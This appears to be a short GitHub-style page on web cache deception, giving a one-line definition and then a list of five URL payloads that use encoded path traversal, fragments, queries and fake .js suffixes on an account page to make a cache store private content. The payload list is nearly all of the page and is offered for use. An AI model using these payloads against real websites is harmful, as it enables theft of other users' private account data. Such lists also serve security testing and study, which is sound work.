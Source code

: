 #Exploit #Payload #Vulnerability #Red-Team #script 

## What is cache deception?

#### Cache deception is a web vulnerability where attackers trick a website's cache into storing sensitive or private user-specific content as if it were public.


## Payloads:

### `/my-account%23%2f%2e%2e%2fresources?hi`
### `/resources/..%2fmy-account?hi`
### `/my-account#asdf.js`
### `/my-account?hello.js`
### `/my-account/hello.js`
